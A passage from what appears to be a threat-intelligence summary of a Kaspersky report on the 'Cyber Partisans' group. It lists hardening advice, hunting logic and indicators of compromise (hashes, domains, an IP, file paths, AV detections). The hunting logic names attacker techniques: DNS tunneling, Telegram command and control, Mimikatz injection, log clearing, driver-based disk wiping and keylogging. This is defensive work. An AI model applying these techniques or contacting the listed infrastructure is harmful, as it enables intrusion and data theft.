    *   Keep at least **three backup copies** for critical servers/systems, with at least one copy on a separate, offline storage device.
    *   Use RAID arrays on backup servers for fault tolerance.
    *   Implement regular procedures to **verify backup integrity and functionality** and perform antivirus scans of backups.
*   **Employee Training**: Educate employees on safe internet and email practices, the consequences of opening unverified files, recognizing phishing, and safe handling of executables and Microsoft Office documents.
*   **Two-Factor Authentication (2FA)**: Implement 2FA for administrative consoles and web interfaces of security solutions, as well as for RDP and other protocols on systems containing confidential data or critical IT infrastructure (e.g., domain controllers).
*   **Security Service Isolation**: Relocate security-related services into a separate network segment, or ideally, a separate domain. Restrict data transfer to only the essential ports and protocols required for security solutions and incident monitoring.
*   **DMZ for Remote Access**: If remote access to systems in other network segments is needed, use a Demilitarized Zone (DMZ) for interaction and conduct remote access via terminal servers.
*   **Kaspersky Security Center Hardening**: Configure Kaspersky Security Center settings according to the "Protection Hardening Guide".
*   **Targeted Attack Protection**: Deploy specialized solutions for protection against targeted attacks, such as Kaspersky Anti Targeted Attack and Kaspersky Endpoint Detection and Response.
*   **Minimize Security Exceptions**: Reduce the number of exceptions in security solution policies. Where possible, avoid universal masks (`*`) and instead use specific file or extension exceptions.

### Hunting Methods
While explicit Yara, Sigma, KQL, or SPL rules are not directly provided, the report outlines several behaviors and indicators that can be translated into hunting queries and detection rules for various security tools (SIEM, EDR, IDS/IPS).

**Network-based Hunting Queries (for SIEM, IDS/IPS):**
*   **High Volume DNS Queries:** Look for an unusually large number of DNS requests originating from a single host or across the network, particularly for unusual or non-standard domains.
    *   *Logic:* DNSCat2 communicates over DNS, which would lead to an elevated number of DNS queries compared to normal activity.
*   **Messenger API Connections:** Monitor for frequent connections to API servers of popular messengers (e.g., Telegram API endpoints).
    *   *Logic:* Vasilek uses Telegram for C2, which would involve recurring connections to Telegram's API.
*   **Outgoing VPN Connections from Internal Hosts:** Alert on unexpected outgoing VPN connections from internal workstations or servers, especially those not designated as VPN gateways.
    *   *Logic:* The initial infection often involves legitimate FortiClient VPN installation, which might lead to VPN connections.
*   **Internal Network Scanning:** Detect attempts by internal hosts to scan the organization's network for open ports or systems.
    *   *Logic:* Seekdns is used for this purpose to identify DNS servers, and Metasploit Framework can be used for scanning.
*   **Non-Standard Internal Connections:** Identify attempts to establish connections between systems within the network on non-standard ports.
    *   *Logic:* Tools like 3proxy might listen on unusual ports like 47135, and general tunneling activity can use non-standard ports.

**Host-based Hunting Queries (for SIEM, EDR):**
*   **New Driver Installation Events:** Look for events indicating the installation of new kernel-mode drivers, especially those with suspicious names or from unexpected locations.
    *   *Logic:* Pryanik wiper uses BYOVD technique, installing a vulnerable Zemana driver (`PWWXXXYY.sys`).
*   **Windows Service Creation Events:** Monitor for the creation of new Windows services, particularly those with suspicious names, paths, or associated executables.
    *   *Logic:* DNSCat2 creates the `FortiGateUpdate` service. PSExec also creates services.
*   **Security Solution Process Termination:** Alert on events showing the termination or crashing of security-related processes (antivirus, EDR, firewall).
    *   *Logic:* Pryanik wiper actively terminates security solution processes to evade detection.
*   **Windows Event Log Clearing/Disabling:** Detect commands or events related to clearing Windows event logs (System, Security, Application) or disabling the logging service.
    *   *Logic:* Pryanik wiper uses `wevtutil.exe` to clear logs. Evlx utility is also used for this purpose.
*   **PSExec/Remote Tool Activity:** Monitor for the execution of `PsExec.exe` or `wevtutil.exe`, as well as related named pipe creation (`RemCom`, `psexesvc`).
    *   *Logic:* PSExec is a known lateral movement tool in their arsenal.
*   **Unusual Process Executions from `C:\Windows\System32` or `C:\Windows\Temp`:**
    *   *Logic:* DNSCat2 is installed in `C:\Windows\System32`. Vasilek may have paths like `C:\WINDOWS\TEMP\mstfc.exe`.
*   **Dynamic Function Import by Hashes:** While not directly detectable by simple queries, behavioral analysis for executables exhibiting unusual dynamic import patterns could be indicative.
    *   *Logic:* DNSCat2 and Vasilek use dynamic import of functions by hashes.
*   **Suspicious PowerShell Activity:** Look for PowerShell scripts using techniques like `Invoke-ReflectivePEInjection` or executing from unusual directories.
    *   *Logic:* Mimikatz is deployed via PowerShell using this technique.
*   **Unusual `svchost.exe` Activity:** Monitor for `svchost.exe` processes loading unusual or newly created DLLs.
    *   *Logic:* DNSCat2 is loaded via `svchost.exe`.
*   **Timestamp Manipulation:** Look for file creation/modification timestamps that are unusually old or deliberately manipulated (e.g., `09.08.2020 16:31:13 UTC+3` for the vulnerable driver).
    *   *Logic:* Pryanik wiper modifies driver timestamps to evade detection.
*   **Disk Overwriting/IOCTL Activity:** Monitor for unusual or high-volume low-level disk write operations or DeviceIoControl calls, especially those targeting raw disk sectors.
    *   *Logic:* Pryanik wiper directly overwrites disk sectors via the vulnerable driver.
*   **Keylogger File Creation:** Look for `keys.txt` or similar files being created in unexpected locations, or processes writing to such files.
    *   *Logic:* Vasilek's keylogger functionality writes to `keys.txt`.
*   **Screenshot Artifacts:** Monitor for `screenshot.png` files being created and potentially exfiltrated.
    *   *Logic:* Vasilek can take screenshots.
*   **Suspicious `new.bak` File Presence:** Search for `new.bak` files in directories containing suspicious executables.
    *   *Logic:* Vasilek uses `new.bak` for configuration.

### IOC

**Hashes (MD5)**
```
7C730289B150582D65622FEE14DAF1DE
A0D7545DCD71267D2D051A4646F91FEB
B3F91A4BFCD2EEB346E323B5CBEF2833
D9F7489A2CB324DB909CE49548E1DB79
021C89550F2CC0067891693C0B2301E6
13F9BE1C7501154E82626D883219B0F1
A4120003348FEDA59ED2A3B278E149BD
B78859EB6FD560548E1A99356D14FBB5
C19970454202AFF1D5AC289B0C0752DA
CC9E931FC7BFE857284BF2EC661399EE
CE338924524961F9553C49B3C2D6EBDE
749B194B2746479157048E08F36C0B05
D1A8081FF646A83666C7AA69204C17A5
0216931A3ED18710FD0CC247E9B98454
0368CCD16376517659B6BA0A63A33086
043A1AE4CB4FD6B2E46D70091FDFDA80
0AB6D6546094D93817E45390F77B840A
1192D60F12AC800DEB3BB94A326E2EFC
1606FF3CA7201B1EDD99A4885AD74479
18769F7D5AE7182135873EA29B586608
1F024F1BCF190DAB60FAE70F0760F92C
28408044F467FD6033E8E9272CF4AD0C
2BA3CE248489F54233FE66D232B8B399
2FFD44AF4277E78C0DCCF0DEB722FA71
3559069687B0F9982F29DCED5FED40B6
39E2604706EB137FF70619E21511F602
3B627D73EDE057BA29E3707736382FD7
457E261456BA5AC6BE9EF9ED4F46518E
45DA308F63B3675E8D0EB4D440D54319
46D785CD365E0B1514D156AB6EBC8C20
4A5EB4BCD4CA4E024DCB608D5E0C2DDD
5047C19C15DF7A356E76959F7921D09A
513AF4462F64719BD7861A2DAFF8E15D
56090EEEF953847D3E4D59729242EC24
5B88416749CDFE192393144EFAE82492
5CA2662B8DE5CC7D56A8E425EF59FBDD
5E29F706DB2FF0BFA9BE481960D52B0C
5F0E6A992521661AA30F627981C89CFD
60290EA2D6149BA5678A8F1FB7ABD1E1
6ADA80A78D15C39B6511D435389A0C32
6CB10D35E6884089CB192E3AB09BF921
718DF1E53B6B208AC46CF135251661DF
74D7FD33236D1024ADAD272C27FA4A04
7524640B6C66411C9F7A4494FA9ACA1C
7EE9A254AC0F571C6889793AF4CFCD3B
89ED6D4EF883A6B6C095CBB2CCFD774E
916B54455CCB7673FB28469B08B3340B
99634F5A23DB7AF8827AFFD095C5E0C0
9A102379C85547C543CA4B4A8FAB99EC
9B5E70FA77FFDC845AC96EAE7F013BB0
9F61EABEE7FEDE49BEEB7DA793FE4025
A268C3D5CAC25D9C03A2960E4EC6F756
A402859D74BCCDEB1E074D1EF837BF70
A5B2129462C6D78521F544A37F8CA21F
A681FE14BC71B14A91000FA8065153BF
A70AF2DB482B8BC2C442B5E55AB6F91B
A7EE2BE8288FCDAE91B5E4022B95AD3A
ADDBB3DEA38C7F114D9B55AC473AF9BD
BAC437D80CD0C65A7937681A9BF5A5E0
BE47583211DF677350E13EF82198D2D5
C060237A1C8D2DCCEFD46F99209312B9
C8C7128B536ACFB2A1531B0CB016F1CE
CE3CB372FC86A1BF8B8965F941903909
E596F7165F9792E9B201E00585ED3694
E5D80BF63B2D4DA0E6B1E91B4DC0E35A
E6F319DA7D9230850974E0B2FA664450
ED03D170568479661BBE47D3B72AABB6
F82207C8CA5C44FF3F3D3341C5B01F4C
FB966F7055BCDF8D21CE32E4DD71317C
FCE38AB03134AD9C4B63845FA456C3E2
FF230F470B3E77CF63CB17BC7A2745BB
6470C04186BD618D612FF765B4234C61
eef8bb0e23f4633ca53d3ac767294b20
a31f4e073c5700f3195b52caaa950971
21a558d7fc3934055302b8a0da78f830
952FC71A3B89BB6E6BB191A66EB4CA12
F72E9453C6B9044FBE5BAC9B5EE4E65F
05c17f58b31dbeb2c15d44d1a460a3e0
0633ed1e19ad9e1c6212c1f326e03d73
8CE8DF9CA659D0678F0236CB13FE8505
BF33354D4D1EDD928617B68365C2DF02
9BBBC01EE96D575DCFC2137FD319A379
```


**Domains**
```
3a01[.]net
0ce[.]org
gov-by[.]com
7cp[.]org
91j[.]org
vmware.org[.]mx
p-society[.]org
```


**IP Addresses**
```
103.219.153[.]203
```


**File Paths**
```
C:\Windows\System32\FortiGateUpdate.dll
C:\Windows\System32\FortiGateUpdate.manifest
c:\program files\common files\adobe\adobegcclient\agmservice.exe
c:\program files\common files\microsoft shared\update\wsussvc.exe
c:\program files\realtek\audio\hda\rtkaudioservice.exe
c:\program files\teamviewer\version9\tv_w64.exe
c:\teamviewer\version9\tv_w640001.exe
c:\users\user\appdata\roaming\telegram desktop\telegramupdater.exe
c:\users\user\appdata\roaming\telegram desktop\update0002.exe
c:\users\user\appdata\roaming\telegram desktop\updater.exe
c:\windows 2016 update\wsus.exe
c:\windows 2016 update\wsus0001.exe
c:\windows\system32\graphics2d.dll
c:\windows\system32\gsdll32.dll
c:\windows\system32\lvfs.exe
c:\Program Files\forefront tmg client\FwcProxy.exe
C:\Program Files (x86)\Google\GoogleUpdater\129.0.6651.0\Crashpad\evx.exe
C:\Program Files (x86)\Google\GoogleUpdater\129.0.6651.0\Crashpad\spp.exe
C:\Program Files (x86)\Google\GoogleUpdater\129.0.6651.0\Crashpad\updater.exe
c:\Users\%UserName%\AppData\Roaming\Brother\pew.exe
c:\Users\%UserName%\AppData\Roaming\Brother\pde.exe
C:\WINDOWS\TEMP\mstfc.exe
C:\windows\system32\iis.exe
c:\windows\system32\winhttp.exe
c:\windows\temp\httpdr.log
c:\windows\bddeeeee.sys
c:\windows\bits.exe
c:\windows\def.dll
c:\windows\netsvc.exe
c:\windows\s.exe
c:\windows\spp.exe
c:\windows\ss.exe
c:\windows\taskmon.exe
c:\windows\vmtoolsd.exe
c:\windows\vmware.exe
C:\Windows\Temp\Rar.exe
```


**Registry Keys**
```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\FortiGateUpdate
```


**Service Names**
```
FortiGateUpdate
```


**Antivirus Detections**
```
HEUR:Trojan.Win32.Vasilek.gen
HEUR:Trojan.Win64.Vasilek.gen
Trojan.Win64.Agent.qwkbkz
not-a-virus:NetTool.Win32.Agent.aelf
HEUR:Trojan.Win32.Agent.gen
Trojan.Win64.Agent.qwkciw
Trojan.Win32.Agent.xbnfrj
Trojan.Win32.Zapchast.bkvf
not-a-virus:NetTool.Win64.Agent.bw
Trojan.Win64.Agent.qwkswp
Trojan.PowerShell.Agent.aiw
Trojan.Win32.Agent.xbdvtb
not-a-virus:NetTool.Win32.Agent.aele
HEUR:HackTool.Win32.Gost.gen
Trojan-Dropper.Win32.Vasilek.a
Trojan.Win64.Vasilek.p
Trojan.Win64.Vasilek.q
Trojan.Win32.Agentb.lnij
Trojan.Win32.Agent.ildg
Trojan.Win32.Vasilek.ak
Trojan.Win64.Agentb.kyfw
Trojan.Win64.Vasilek.r
Trojan.Win32.Vasilek.j
Trojan.Win64.Vasilek.s
Trojan.Win64.Agentb.kyfv
Trojan.Win32.Agent.ildf
Trojan.Win64.Vasilek.o
Trojan.Win64.Kryptik.hx
Trojan.Win32.Vasilek.am
Trojan.Win32.Vasilek.z
Trojan.Win32.Agentb.live
Trojan.Win32.Vasilek.n
Trojan.Win32.Vasilek.an
Trojan.Win32.Vasilek.l
HackTool.Win64.Gost.ac
HackTool.Win64.Gost.ae
HackTool.Win64.Gost.p
HackTool.Win64.Gost.a
HackTool.Win64.Gost.ai
HackTool.Win64.Gost.t
HackTool.Win64.Gost.v
HackTool.Win64.Gost.as
HackTool.Win64.Gost.aq
HackTool.Win64.Gost.au
HackTool.Win64.Gost.bd
Trojan.Win32.Vasilek.at
Trojan.Win32.Vasilek.au
Trojan.Win32.Agentb.lnii
Trojan.Win32.Vasilek.ao
Trojan.Win32.Agentb.miyo
HackTool.Win64.Agent.ly
```


**Original link:** [ics-cert.kaspersky.ru/publications/reports/2025/06/05/ttps-of-cyber-partisans-activity-aimed-at-espionage-and-disruption/](https://ics-cert.kaspersky.ru/publications/reports/2025/06/05/ttps-of-cyber-partisans-activity-aimed-at-espionage-and-disruption/)